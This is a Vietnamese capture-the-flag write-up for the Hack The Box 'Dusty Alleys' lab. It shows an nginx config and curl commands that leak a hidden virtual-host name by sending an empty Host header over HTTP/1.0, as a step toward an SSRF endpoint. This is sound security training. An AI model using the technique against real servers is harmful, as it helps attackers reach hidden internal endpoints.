 # CheatCodeHTB
## Dusty Alleys
### Solution

- Server config /alley và /think `listen 80 default_server;
        server_name alley.$SECRET_ALLEY;` nhưng chỉ có ` server_name guardian.$SECRET_ALLEY;` cho `/guardian`
=> Ta cần `$SECRET_ALLAY` để truy cập endpoint /guardian ~~nơi chứa SSRF~~
```config
server {
        listen 80 default_server;
        server_name alley.$SECRET_ALLEY;

    location / {
        root /var/www/html/;  
        index index.html;              
    }

        location /alley {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }

        location /think  { 
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host;
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;

                        }
}

server {
        listen 80;
                server_name guardian.$SECRET_ALLEY;

        location /guardian {
                        proxy_pass http://localhost:1337;
                        proxy_set_header Host $host; 
                        proxy_set_header X-Real-IP $remote_addr;
                        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
                        proxy_set_header X-Forwarded-Proto $scheme;
        }
}
```
- Endpoint `/think` trả về request header
```
router.get("/think", async (req, res) => {
  return res.json(req.headers);
});

\\Exam response
{
   "host":"94.237.48.147",
   "x-real-ip":"10.30.18.144",
   "x-forwarded-for":"10.30.18.144",
   "x-forwarded-for:"http",
   "connection":"close",
   "accept-language":"en-US,en;q=0.9",
   "upgrade-insecure-requests":"1",
   "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36",
   "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
   "accept-encoding":"gzip, deflate, br",
   "if-none-match":"W/\"1ff-LedyLfO3NsGXjDLDeEoUwvsCLx8\""
}
```
- Ta có thể thấy `"x-real-ip", "x-forwarded-for" và "x-forwarded-for" không hề có trong request mà ta gửi. Có thể suy ra được các header này được Proxy thêm vào trong quá trình gửi request
-  Vậy `proxy_set_header Host $host` thì sao, ta có sẵn Host trong header nên /think trả về "host":"94.237.48.147". Vậy nếu ta không truyền "Host", hoặc Host rỗng thì sao? ~~thì Bad Reuqest :)))~~

```
curl -H "Host:" http://94.237.48.147:49291/think
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```
### Giao thức HTTP 1.0
- Giao thức HTTP 1.0 không yêu cầu header "Host" trong request header
```
curl -H "Host:" --http1.0 http://94.237.48.147:49291/think
{"host":"alley.firstalleyontheleft.com","x-real-ip":"10.30.18.144","x-forwarded-for":"10.30.18.144","x-forwarded-proto":"http","connection":"close","user-agent":"curl/8.5.0","accept":"*/*"}(base)
```
